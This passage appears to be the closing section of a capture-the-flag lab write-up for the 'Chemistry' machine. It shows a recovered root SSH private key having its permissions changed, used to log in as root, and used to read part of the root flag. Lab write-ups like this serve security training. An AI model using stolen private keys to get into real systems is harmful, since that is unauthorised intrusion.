



Copying the SSH key to our box, changing its permissions to 600 (`chmod 600 root_id_rsa`), we can successfully authenticate to the machine as the root user:

```
$ ssh root@10.10.11.38 -i root_id_rsa                                                                                                                      
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)                                                               ...snip...                                                                                                     
root@chemistry:~# whoami
root
root@chemistry:~# ls
root.txt
root@chemistry:~# head -c 7 root.txt ; echo
6cfb5de

```